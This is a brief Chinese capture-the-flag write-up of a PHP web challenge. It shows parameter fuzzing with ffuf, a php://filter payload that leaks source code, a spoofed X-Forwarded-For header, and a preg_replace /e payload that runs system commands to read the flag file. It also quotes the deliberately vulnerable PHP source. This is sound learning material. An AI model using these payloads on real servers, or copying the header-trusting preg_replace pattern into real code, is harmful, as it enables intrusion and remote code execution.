 看一下有什么

![image](https://github.com/user-attachments/assets/fa7ab568-bd2c-485f-aee9-8aede930147f)

只有/index.php

![image](https://github.com/user-attachments/assets/5b618ff1-ff47-40d6-a52b-75df4217b995)

模糊测试得到一个page

```
┌──(kali㉿kali)-[~]
└─$ ffuf -u "http://223.112.5.141:52073/index.php?FUZZ=FUZZ" -w /usr/share/wordlists/rockyou.txt -fc 403 -c -fs 2305 -s
page
```

尝试用php伪协议读取源码?page=php://filter/read=convert.base64-encode/resource=index.php

```
<?php
$page = $_GET[page];
if (isset($page)) {
if (ctype_alnum($page)) {
?>
<?php
}else{
?>
<?php
}}
//方便的实现输入输出的功能,正在开发中的功能，只能内部人员测试
if ($_SERVER['HTTP_X_FORWARDED_FOR'] == '127.0.0.1') {
    echo "<br >Welcome My Admin ! <br >";
    $pattern = $_GET[pat];
    $replacement = $_GET[rep];
    $subject = $_GET[sub];
    if (isset($pattern) && isset($replacement) && isset($subject)) {
        preg_replace($pattern, $replacement, $subject);
    }else{
        die();
    }
}
?>
```

改一下HTTP_X_FORWARDED_FOR为127.0.0.1

preg_replace 函数：preg_replace ($pattern, $replacement, $subject) 函数会将 subject 中匹配 pattern 的部分用 replacement 替换，启用 /e 参数，就会将 replacement 当做 php 代码执行

![image](https://github.com/user-attachments/assets/5de612b6-253f-438b-86f6-3630add4e430)

flag：?pat=/abc/e&rep=system('cat+s3chahahaDir/flag/flag.php')&sub=abc

![image](https://github.com/user-attachments/assets/b8942d75-9859-442d-a32d-3637777e7474)

